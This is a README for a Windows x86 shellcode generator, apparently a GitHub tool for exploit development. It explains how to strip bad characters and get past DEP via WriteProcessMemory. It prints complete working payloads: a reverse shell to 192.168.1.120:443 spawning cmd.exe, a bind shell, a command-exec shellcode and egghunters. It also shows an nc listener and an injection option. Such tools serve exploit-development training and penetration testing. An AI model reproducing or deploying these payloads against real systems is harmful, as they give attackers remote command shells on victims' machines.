 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate developing shellcodes that do not contain bad characters and do not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

Suppose [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used. In that case, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes and some instructions in the shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x0a\x0d\x20\x30' reverse -i 192.168.1.120 -p 443
...
# bad chars were found in the shellcode
...
[ ] 60           : pushal
[ ] 31c9         : xor ecx, ecx
[x] 648b7130     : mov esi, dword ptr fs:[ecx + 0x30]
[ ] 8b760c       : mov esi, dword ptr [esi + 0xc]
[ ] 8b761c       : mov esi, dword ptr [esi + 0x1c]
...
[ ] 8b433c       : mov eax, dword ptr [ebx + 0x3c]
[ ] 8b7c0378     : mov edi, dword ptr [ebx + eax + 0x78]
[ ] 01df         : add edi, ebx
[ ] 8b4f18       : mov ecx, dword ptr [edi + 0x18]
[x] 8b4720       : mov eax, dword ptr [edi + 0x20]
[ ] 01d8         : add eax, ebx
[ ] 8945fc       : mov dword ptr [ebp - 4], eax
...
```


## Remove Bad Characters

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x20 and 0x30 can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
find_and_call:
    pushad                          // Save all registers
    xor   ecx, ecx                  // ECX = 0
    inc   ecx                       // * FOR BAD CHAR 0x30 *
    mov   esi,fs:[ecx+0x2F]         // ESI = &(PEB) ([FS:0x30])
    dec   ecx                       // * FOR BAD CHAR 0x30 *
    mov   esi,[esi+0x0C]            // ESI = PEB->Ldr
    mov   esi,[esi+0x1C]            // ESI = PEB->Ldr.InInitOrder
...
find_function:
    mov   eax, [ebx+0x3C]           // Offset to PE Signature
    mov   edi, [ebx+eax+0x78]       // Export Table Directory RVA
    add   edi, ebx                  // Export Table Directory VMA
    mov   ecx, [edi+0x18]           // NumberOfNames
    inc   edi                       // * FOR BAD CHAR 0x20 *
    mov   eax, [edi+0x1F]           // AddressOfNames RVA
    dec   edi                       // * FOR BAD CHAR 0x20 *
    add   eax, ebx                  // AddressOfNames VMA
    mov   [ebp-0x4], eax            // Save AddressOfNames VMA for later
```


## Examples

### Reverse Shell

```
$ python3 win_x86_shellcoder.py -b '\x00' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x151 (337)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x02\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8Ph32.DhWS2_Thhz\xc4v\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x96 \x9e\xcc\xffU\x041\xc0PPP\xb0\x06P,\x05P@Phf ^\x81\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh\x95 ^W\xffU\x04VVV1\xc0\x8dH\rP\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8Phcmd.\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\xc7(\xaa\x0b\xffU\x041\xc9Qj\xffh\xd2U\xa9.\xffU\x04'
```

### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00' bind -p 54321
# shellcode size: 0x162 (354)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x05\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8Ph32.DhWS2_Th\x92\xacm\xcc\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xc8\xcb\xa7;\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\x19\xe9\xd9/\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVhg`\x05\x8b\xffU\x041\xc0PVh\xc9\xc6\xecE\xffU\x041\xc0PPVhOa\x0c\x9a\xffU\x04\x89\xc6VVV1\xc0\x8dH\rP\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8Phcmd.\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\xd9zI\x06\xffU\x041\xc9Qj\xffh\xce\x83\xcbg\xffU\x04'
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00' exec -c 'calc'
# shellcode size: 0xb4 (180)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```

On 192.168.1.120

```
nc -nlvp 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

